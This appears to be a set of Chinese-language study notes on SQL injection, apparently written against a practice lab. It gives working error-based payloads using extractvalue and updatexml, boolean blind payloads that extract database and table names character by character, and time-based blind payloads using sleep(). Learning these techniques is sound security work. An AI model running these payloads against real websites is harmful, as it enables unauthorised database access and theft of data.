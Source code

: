 ------

## 报错注入：

```
' and extractvalue(1,concat(0x7e,(database()),0x7e)) --+

' and updatexml(1,concat(0x7e,(database()),0x7e),1) --+
```

------

## 布尔型注入:

**你觉得这个地方进行了数据库查询，但是没有显示位，但是报错不会出现信息，错误和正确页面有区别**

**靠猜**

```
?id=2' and 0 --+
?id=2' and 1<2 --+
```

判断一下后面是否可以夹带私货

实战：

```
id=1' and (select ascii(substr(database(),1,1))) < 115 --+
```

走流程

```
id=1' and (select ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))) < 115 --+
```

------

布尔型时间盲注：

你觉得这个地方进行了数据库查询，但是没有显示位，但是报错不会出现信息，错误也不会告诉你

select sleep(5);
睡个5s

```
select if((select database())="haha",sleep(5),null);
```

判断一下数据库库名是不是haha，如果是，睡5s，不是就返回null

实战：

```
id=2' and sleep(5) --+
```

说明可以睡觉
